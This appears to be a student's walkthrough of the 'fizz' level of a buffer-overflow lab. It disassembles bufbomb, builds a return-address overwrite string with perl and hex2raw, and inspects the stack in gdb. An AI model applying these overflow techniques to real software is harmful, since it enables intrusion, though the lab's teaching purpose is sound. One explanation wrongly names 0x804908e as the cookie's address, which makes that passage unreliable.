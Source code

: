 Goal = change the return address and but also give your "id" within the buffer overflow.

To find the address of function ```fizz()``` type:
```unix> objdump -d bufbomb | less```

and use ```f``` to go forward and ```b``` to go backwards until you find fizz:

```
0804905f <fizz>:
 804905f:       55                      push   %ebp
 8049060:       89 e5                   mov    %esp,%ebp
 8049062:       83 ec 18                sub    $0x18,%esp
 8049065:       8b 45 08                mov    0x8(%ebp),%eax # <=== 1)
 8049068:       3b 05 e4 c1 04 08       cmp    0x804c1e4,%eax # <=== 2)
 804906e:       75 1e                   jne    804908e <fizz+0x2f> # <=== 3)
 8049070:       89 44 24 04             mov    %eax,0x4(%esp)
 8049074:       c7 04 24 87 9f 04 08    movl   $0x8049f87,(%esp)
 804907b:       e8 60 f8 ff ff          call   80488e0 <printf@plt>
 8049080:       c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8049087:       e8 48 00 00 00          call   80490d4 <validate>
 804908c:       eb 10                   jmp    804909e <fizz+0x3f>
 804908e:       89 44 24 04             mov    %eax,0x4(%esp)
 8049092:       c7 04 24 80 a1 04 08    movl   $0x804a180,(%esp)
 8049099:       e8 42 f8 ff ff          call   80488e0 <printf@plt>
 804909e:       c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 80490a5:       e8 e6 f8 ff ff          call   8048990 <exit@plt>
```
<b>write down the address of fizz. Mine is 0804905f</b>

1) at 8049065 the value at %esp+8 is being stored into %eax by the mov instruction.
2) the value stored in %eax is compared to the value at address 0x804908e.
   
0x804908e is where the cookie for id "quinnliu" has been stored.

When the comp instruction executes, cmp will set an EFLAG based on the results of the compare.

3) the jne(jump if not equal) instruction jumps to 0x804908e depending the the state of the
EFlag. When the cmp instruction compares 2 values that are equal then the ZF flag = 1 within EFLAGS. 
and the jump will not occur. 

More specific goal = push the address of fizz onto the stack, place the cookie produced by
the id "quinnliu" at the location 0x8(%ebp) 

Now create this new file with the address of fizz you wrote down earlier:
```
unix> perl -e 'print "61 "x32, "5f 90 04 08 ", "BB "x4, "CC "x4 '>hexlevel1
unix> ./hex2raw < hexlevel1 > raw
```

Now type:
```
unix> gdb bufbomb
(gdb) break fizz
(gdb) run -u quinnliu < raw
(gdb) disas
```

Which gives you:
```
(gdb) run -u quinnliu < raw
Starting program: /home/ugrads/majors/quinnliu/Desktop/ComputerOrganizationII/buflab-handout/bufbomb -u quinnliu < raw
Userid: quinnliu
Cookie: 0x2d8cc70c

Breakpoint 1, 0x08049065 in fizz ()
Missing separate debuginfos, use: debuginfo-install glibc-2.12-1.47.el6_2.5.i686
(gdb) disas
Dump of assembler code for function fizz:
   0x0804905f <+0>:     push   %ebp
   0x08049060 <+1>:     mov    %esp,%ebp
   0x08049062 <+3>:     sub    $0x18,%esp
=> 0x08049065 <+6>:     mov    0x8(%ebp),%eax
   0x08049068 <+9>:     cmp    0x804c1e4,%eax
   0x0804906e <+15>:    jne    0x804908e <fizz+47>
   0x08049070 <+17>:    mov    %eax,0x4(%esp)
   0x08049074 <+21>:    movl   $0x8049f87,(%esp)
   0x0804907b <+28>:    call   0x80488e0 <printf@plt>
   0x08049080 <+33>:    movl   $0x1,(%esp)
   0x08049087 <+40>:    call   0x80490d4 <validate>
   0x0804908c <+45>:    jmp    0x804909e <fizz+63>
   0x0804908e <+47>:    mov    %eax,0x4(%esp)
   0x08049092 <+51>:    movl   $0x804a180,(%esp)
   0x08049099 <+58>:    call   0x80488e0 <printf@plt>
   0x0804909e <+63>:    movl   $0x0,(%esp)
   0x080490a5 <+70>:    call   0x8048990 <exit@plt>
End of assembler dump.
```

Now type:
```(gdb) i r``` 

And you will get:

```
(gdb) i r
eax            0x1      1
ecx            0xa      10
edx            0xbe4334 12469044
ebx            0x0      0
esp            0x5568333c       0x5568333c
ebp            0x55683354       0x55683354
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8049065        0x8049065 <fizz+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```

Now we take the address at %ebp and add 0x8 to get the address of where it will grab the value to compare to the cookie "quinnliu"

addressAt%ebp = 0x55683354

addressAt%ebp+8 = 0x55683354 + 8 using the hex calculator from level 0
                = 0x5568335C

Now type:
```(gdb) x/ 0x5568335C```

Gives you:
```
(gdb) x/ 0x5568335C
0x5568335c <_reserved+1037148>: 0x004ae610
```